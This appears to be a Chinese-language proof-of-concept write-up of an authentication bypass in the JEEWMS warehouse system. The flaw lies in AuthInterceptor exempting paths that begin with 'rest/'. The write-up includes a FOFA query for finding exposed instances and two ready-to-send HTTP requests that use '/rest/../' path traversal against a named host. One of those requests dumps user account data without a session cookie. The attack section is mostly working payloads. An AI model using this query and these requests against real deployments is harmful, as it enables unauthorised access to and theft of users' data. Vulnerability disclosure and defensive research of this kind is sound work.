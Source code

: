 ## **JEEWMS存在权限绕过漏洞**

## 漏洞描述

**JEEWMS存在权限绕过漏洞**

## 漏洞影响

> JEEWMS全版本

## FOFA

> body="plug-in/lhgDialog/lhgdialog.min.js?skin=metro" && body="仓"

## 漏洞复现

漏洞代码：

**org.jeecgframework.core.interceptors.AuthInterceptor**

jeewms使用JAVA拦截器做的权限控制，存在被绕过漏洞

代码：

![img](resource/JEEWMS/1.png)

可以看到第一个if判断中只要0-5个字符串是rest/就返回true，意思是无需认证

由于测试站放在站群上，**因此POC是/wmstest/rest/../正常/rest/../即可**

**正常数据包**：

![img](resource/JEEWMS/2.png)

删除Cookie数据包

![img](resource/JEEWMS/3.png)

使用POC数据包

![img](resource/JEEWMS/4.png)

![img](resource/JEEWMS/5.png)

##payload

```
POST /wmstest/rest/../BiController.do?dayCount&reportType=line HTTP/1.1
Host: www.jeewms.cn
Content-Length: 0
Accept: */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36 Edg/85.0.564.63
X-Requested-With: XMLHttpRequest
Origin: http://www.jeewms.cn
Referer: http://www.jeewms.cn/wmstest/BiController.do?homebi
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6,pl;q=0.5
Connection: close

```

```
POST /wmstest/rest/../userController.do?datagrid&field=id,userName,realName,userOrgList.tsDepart.departname,userKey,createBy,createDate,updateBy,updateDate,status, HTTP/1.1
Host: www.jeewms.cn
Content-Length: 58
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36 Edg/85.0.564.63
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://www.jeewms.cn
Referer: http://www.jeewms.cn/wmstest/userController.do?user&clickFunctionId=8a8ab0b246dc81120146dc8180df001f
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6,pl;q=0.5
Connection: close

page=1&rows=10&sort=createDate%2CuserName&order=asc%2Cdesc

```

